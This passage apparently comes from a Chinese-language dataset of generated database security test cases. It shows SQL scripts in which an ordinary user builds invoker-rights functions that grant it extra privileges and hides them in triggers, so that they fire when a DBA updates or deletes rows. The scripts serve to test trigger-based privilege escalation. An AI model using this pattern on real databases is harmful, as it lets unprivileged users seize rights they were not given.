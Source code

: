 --插入数据
INSERT INTO T4 VALUES(1, 'USER1');

--创建授权函数
CREATE OR REPLACE FUNCTION GRANT_TABLESPACE
RETURN VARCHAR2
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'GRANT CREATE TABLESPACE TO USER1';
    COMMIT;
    RETURN 'GRANTED';
END;

--创建触发器，调用函数
CREATE OR REPLACE TRIGGER UPDATE_GRANT_TABLESPACE
AFTER UPDATE ON USER1.T4
FOR EACH ROW
BEGIN
 --调用函数
 CALL GRANT_TABLESPACE();
END;

--DBA用户
--更新数据，触发触发器进行授权
UPDATE USER1.T4 SET NAME = 'SYSDBA' WHERE ID = 1;

--USER1用户
--查看权限
SELECT * FROM USER_SYS_PRIVS;"
生成一组测试用例，能够反应触发器通过调用函数实现间接提权功能,user1用户是普通用户，创建函数执行授权任意该用户未有的权限，创建删除前触发器，执行该函数。使用DBA用户删除user1用户的表，触发触发器调用函数进行授权,"--USER1用户
--创建表
CREATE TABLE T5(ID INT, NAME VARCHAR(20));

--插入数据
INSERT INTO T5 VALUES(1, 'USER1');

--创建授权函数
CREATE OR REPLACE FUNCTION GRANT_ANY
RETURN VARCHAR2
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'GRANT INSERT ANY TABLE TO USER1';
    COMMIT;
    RETURN 'GRANTED';
END;

--创建触发器，调用函数
CREATE OR REPLACE TRIGGER DELETE_GRANT_ANY
BEFORE DELETE ON USER1.T5
FOR EACH ROW
BEGIN
 --调用函数
 CALL GRANT_ANY();
END;
